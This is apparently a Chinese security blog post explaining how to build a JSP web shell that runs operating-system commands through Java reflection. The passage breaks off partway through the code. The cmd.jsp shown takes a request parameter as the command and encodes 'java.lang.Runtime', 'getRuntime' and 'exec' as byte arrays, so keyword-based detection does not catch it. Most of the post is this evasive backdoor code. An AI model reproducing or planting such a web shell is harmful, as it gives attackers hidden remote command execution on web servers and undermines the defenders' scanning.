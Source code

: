 ```yaml
---
title: Java反射机制实现无关键字执行命令
comments: true
date: 2022-01-12 17:08:39
tags: ["Java反射"]
categories:
- JAVA安全
cover: http://image.xpshuai.cn/img/image-20220112175328921.png
top_img:
description:
---
```




## 搭建环境

新建maven项目 + tomcat 

pom.xml引入servlet

```xml
<dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>4.0.1</version>
    </dependency>

```





## 代码



cmd.jsp

```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%--
  Created by IntelliJ IDEA.
  User: 19401
  Date: 2022/1/12
  Time: 17:13
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = null;
    try {
        c = Class.forName(rt);
        // 反射获取Runtime类的getRuntime方法
        Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

        // 反射获取Runtime类的exec方法
        Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);
```